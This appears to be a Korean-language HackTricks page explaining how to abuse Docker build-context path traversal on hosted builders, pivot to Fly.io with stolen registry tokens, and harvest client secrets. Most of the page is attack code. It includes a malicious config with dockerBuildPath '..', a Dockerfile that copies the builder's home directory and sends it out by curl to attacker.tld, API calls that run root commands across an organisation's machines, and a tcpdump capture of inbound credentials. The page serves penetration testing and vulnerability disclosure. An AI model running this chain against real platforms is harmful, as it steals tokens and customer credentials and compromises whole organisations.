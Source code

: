# Hosted Builders에서 Docker Build Context 악용 (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

CI/CD 플랫폼이나 hosted builder가 기여자가 Docker build context 경로와 Dockerfile 경로를 지정하도록 허용하면, 컨텍스트를 상위 디렉토리(예: "..")로 설정해 호스트 파일을 빌드 컨텍스트의 일부로 만들 수 있는 경우가 많습니다. 그런 다음 공격자가 제어하는 Dockerfile이 COPY를 사용해 빌더 사용자 홈에서 발견되는 비밀(예: ~/.docker/config.json)을 유출할 수 있습니다. 훔친 registry tokens은 제공자의 control-plane APIs에 대해 동작할 수도 있어 조직 전체의 RCE를 초래할 수 있습니다.

## 공격 표면

많은 hosted builder/registry 서비스는 사용자 제출 이미지를 빌드할 때 대체로 다음을 수행합니다:
- 다음을 포함하는 repo-level config를 읽음:
  - build context path (Docker daemon으로 전송됨)
  - 해당 context에 상대적인 Dockerfile path
- 지정된 build context 디렉토리와 Dockerfile을 Docker daemon으로 복사
- 이미지를 빌드하고 호스티드 서비스로 실행

플랫폼이 build context를 정규화(canonicalize)하거나 제한하지 않으면, 사용자는 이를 리포지터리 외부 위치로 설정할 수 있으며(path traversal), 그 결과 빌드 사용자에게 읽기 가능한 임의의 호스트 파일이 build context의 일부가 되어 Dockerfile에서 COPY로 접근할 수 있게 됩니다.

일반적으로 관찰되는 실무적 제약:
- Dockerfile은 선택한 context 경로 내에 존재해야 하며 그 경로는 미리 알려져 있어야 합니다.
- 빌드 사용자는 context에 포함된 파일들을 읽을 수 있어야 하며; 특수 디바이스 파일은 복사를 실패하게 만들 수 있습니다.

## PoC: Path traversal via Docker build context

상위 디렉토리 context 내에 Dockerfile을 선언한 악의적 서버 설정 예:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Notes:
- ".."는 종종 builder 사용자의 홈(예: /home/builder)으로 해석되며, 일반적으로 민감한 파일을 포함합니다.
- Dockerfile을 repo의 디렉터리 이름 아래(예: repo "test" → test/Dockerfile)에 두어 확장된 상위 context 내에 남아 있도록 하세요.

## PoC: Dockerfile to ingest and exfiltrate the host context
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
$HOME에서 흔히 획득되는 대상:
- ~/.docker/config.json (registry auths/tokens)
- 기타 cloud/CLI 캐시 및 구성 (예: ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

팁: 리포지토리에 .dockerignore가 있더라도, 취약한 플랫폼 측의 context 선택이 데몬으로 전송되는 항목을 여전히 결정합니다. 플랫폼이 선택한 경로를 데몬으로 복사한 후에 리포의 .dockerignore를 평가한다면 호스트 파일이 여전히 노출될 수 있습니다.

## 과도한 권한 토큰으로 클라우드 피벗 (example: Fly.io Machines API)

일부 플랫폼은 container registry와 control-plane API 둘 다에 사용할 수 있는 단일 bearer token을 발급합니다. 만약 registry token을 탈취했다면 provider API에 대해 사용해 보세요.

다음은 ~/.docker/config.json에서 탈취한 토큰을 사용해 Fly.io Machines API에 대한 예시 API 호출입니다:

조직 내 앱 열거:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
앱의 어떤 머신에서든 root로 명령을 실행:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Outcome: 조직 전체에서 token이 충분한 권한을 가진 경우 모든 hosted apps에 대한 org-wide remote code execution.

## 침해된 호스팅 서비스로부터의 비밀 탈취

exec/RCE로 호스팅된 서버에 접근하면 클라이언트가 제공한 secrets (API keys, tokens)을 수집하거나 prompt-injection attacks를 수행할 수 있다. 예: tcpdump를 설치하고 포트 8080의 HTTP 트래픽을 캡처해 인바운드 credentials를 추출한다.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
캡처된 요청에는 종종 헤더, 본문 또는 쿼리 매개변수에 클라이언트 자격 증명이 포함되어 있습니다.

## 참고자료

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
